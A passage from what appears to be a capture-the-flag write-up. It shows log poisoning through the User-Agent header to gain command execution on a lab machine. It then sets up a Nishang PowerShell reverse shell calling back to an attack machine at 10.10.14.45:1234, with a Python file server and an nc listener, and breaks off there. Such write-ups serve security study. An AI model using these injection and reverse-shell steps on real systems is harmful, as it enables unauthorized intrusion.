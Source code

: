 We get a 302 status code which is a good sign. Let’s try and log in with our newly created credentials.

![](https://miro.medium.com/max/1033/1*kq3HWHpthm8wT2ldQwQ4QQ.png)

We’re in! View the source code.

![](https://miro.medium.com/max/1294/1*1eTjRuPzfTGUzvxczakZOg.png)

Visit the _log.php_ link.

![](https://miro.medium.com/max/1311/1*QNtdfcCST6kmu3ZrncGYMg.png)

It looks like it logs the username and user agent of the incoming request. I tried injecting code into the username, however, that was not reflected back in the logs. The user-agent on the other hand is vulnerable.

![](https://miro.medium.com/max/691/1*Ygtk3fZ4JP5IEzwzv3-G2Q.png)

The above requests adds a ‘_cmd_’ parameter to the request that executes system commands. Let’s test it out.

![](https://miro.medium.com/max/1420/1*mASnddj7fKG9owkP7k_sXw.png)

Perfect, we finally have code execution!

## Initial Foothold <a id="08ad"></a>

Let’s use that to send a reverse shell to our attack machine.

Download the [Nishang](https://github.com/samratashok/nishang) repository and copy the _Invoke-PowerShellTcp.ps1_ script into your current directory.

```text
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell.ps1
```

Add the following line to the end of the script with the attack machine configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.45 -Port 1234
```

When called, this sends a reverse shell back to our attack machine on port 1234.

Start up a python server in the directory that the shell script resides in.

```text
python -m SimpleHTTPServer 5555
```

Setup a listener to receive the reverse shell.

```text
nc -nlvp 1234
```
